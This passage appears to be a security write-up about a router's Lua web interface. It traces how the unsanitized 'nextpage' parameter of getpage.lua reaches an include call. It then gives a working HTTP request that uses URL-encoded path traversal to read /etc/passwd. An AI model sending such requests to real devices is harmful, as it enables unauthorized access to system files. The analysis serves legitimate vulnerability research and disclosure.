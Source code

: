 ```lua
<div id="childPage">
]])
  cgilua.lp.include("./common_page/" .. remove_suffix_filename(nextpage), getfenv(1))
  cgilua.put([[

</div>
</div>
</div>
]])
```

At line `65` we can see that `cgilua.lp.include` function is called with `nextpage` as the parameter and passsed through the `remove_suffix_filename`.

```lua
function remove_suffix_filename(name)
  local i = string.len(name)
  local tmp = string.sub(name, i - 3, i)
  if string.lower(tmp) == ".lua" then
    return string.sub(name, 1, i - 4)
  end
  return name
end
```

Back to `/home/httpd/urlsafe.lua` we see that the `remove_suffix_filename` function removes the `.lua` suffix from a string if it has it, so it makes no difference for us.

```
GET /getpage.lua?pid=123&nextpage=ManagDiag_StatusManag_t.lp&Menu3Location=0 HTTP/1.1
Host: 192.168.1.254:80
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```

```
GET /getpage.lua?pid=123&nextpage=..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd&Menu3Location=0 HTTP/1.1
Host: 192.168.1.254:80
User-Agent: python-requests/2.25.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
```

Because the `nextpage` is not sanitized or no file check is performed when the `pid` is set to `123` path traversal is possible by url-encoding the `nextpage` parameter, so sending these example two requests will cause the server to leak `/etc/passwd`.
